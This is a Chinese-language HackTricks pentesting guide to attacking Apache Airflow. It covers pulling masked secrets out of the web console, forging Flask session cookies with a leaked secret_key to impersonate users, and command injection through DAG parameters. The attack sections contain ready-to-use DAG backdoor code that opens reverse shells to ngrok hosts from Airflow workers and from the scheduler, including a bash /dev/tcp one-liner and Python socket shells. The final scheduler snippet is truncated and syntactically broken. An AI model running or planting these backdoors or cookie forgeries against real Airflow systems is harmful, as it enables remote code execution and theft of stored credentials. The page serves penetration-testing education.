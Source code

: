 # Apache Airflow安全性

<details>

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[**Apache Airflow**](https://airflow.apache.org) 作为一个平台，用于**编排和调度数据管道或工作流**。在数据管道的上下文中，“编排”一词表示安排、协调和管理来自各种来源的复杂数据工作流程的过程。这些经过编排的数据管道的主要目的是提供经过处理和可消费的数据集。这些数据集被广泛应用于各种应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，所有这些都是大数据应用程序运行的基础。

基本上，Apache Airflow将允许您**在发生某事时**（事件、定时任务）**调度代码的执行**。

## 本地实验室

### Docker-Compose

您可以使用来自[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)的**docker-compose配置文件**启动完整的Apache Airflow Docker环境。（如果您在MacOS上，请确保为docker虚拟机分配至少6GB的RAM）。

### Minikube

运行Apache Airflow的一种简单方法是使用**minikube**运行它：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow配置

Airflow可能会在其配置中存储**敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

在开始攻击Airflow之前，您应该了解**权限如何工作**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻击

### Web控制台枚举

如果您可以访问**Web控制台**，您可能能够访问以下一些或所有信息：

* **变量**（自定义敏感信息可能存储在此处）
* **连接**（自定义敏感信息可能存储在此处）
* 在`http://<airflow>/connection/list/`中访问它们
* [**配置**](./#airflow-configuration)（敏感信息如**`secret_key`**和密码可能存储在此处）
* 列出**用户和角色**
* 每个DAG的**代码**（可能包含有趣的信息）

### 检索变量值

变量可以存储在Airflow中，以便**DAG**可以**访问**它们的值。这类似于其他平台的秘密。如果您有**足够的权限**，可以在GUI中访问它们，网址为`http://<airflow>/variable/list/`。\
默认情况下，Airflow将在GUI中显示变量的值，但是根据[**这里**](https://marclamberti.com/blog/variables-with-apache-airflow/)，可以设置一个**变量列表**，其**值**将显示为**星号**在**GUI**中。

![](<../../.gitbook/assets/image (164).png>)

然而，这些**值**仍然可以通过**CLI**（需要具有DB访问权限）、**任意DAG**执行、**API**访问变量端点（需要激活API），甚至**GUI本身**来**检索**。\
要从GUI中访问这些值，只需**选择要访问的变量**，然后单击**操作 -> 导出**。\
另一种方法是通过**搜索过滤**执行**暴力破解**以获取**隐藏值**：

![](<../../.gitbook/assets/image (152).png>)

### 特权升级

如果**`expose_config`**配置设置为**True**，从**用户角色**及以上可以在**Web中读取**配置。在此配置中，会显示**`secret_key`**，这意味着任何具有此有效密钥的用户都可以**创建自己的已签名cookie以冒充任何其他用户帐户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG后门（Airflow worker中的RCE）

如果您对保存DAG的位置具有**写入访问权限**，您可以**创建一个**DAG，该DAG将向您发送一个**反向 shell**。\
请注意，此反向 shell 将在**airflow worker容器**中执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG 后门（Airflow 调度器中的远程代码执行）

如果您将某些内容设置为在**代码的根目录中执行**，在撰写本文时，它将在将其放入DAG文件夹后的几秒钟后由调度器**执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 创建

如果您设法**入侵 DAG 集群内的一台机器**，您可以在 `dags/` 文件夹中创建新的**DAG 脚本**，它们将被**复制到 DAG 集群中的其他机器**。

### DAG 代码注入

当您从 GUI 执行 DAG 时，可以向其**传递参数**。\
因此，如果 DAG 没有正确编码，它可能**容易受到命令注入攻击**。\
这就是在此 CVE 中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

您需要了解的一切，以**开始在 DAG 中寻找命令注入**，就是**参数**是通过代码**`dag_run.conf.get("param_name")`**来**访问**的。

此外，相同的漏洞可能会出现在**变量**中（请注意，如果具有足够的权限，您可以在 GUI 中**控制变量的值**）。变量是通过以下方式**访问**的：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们例如被用在一个bash命令中，你可以执行命令注入。

<details>

{% hint style="success" %}
学习并实践AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
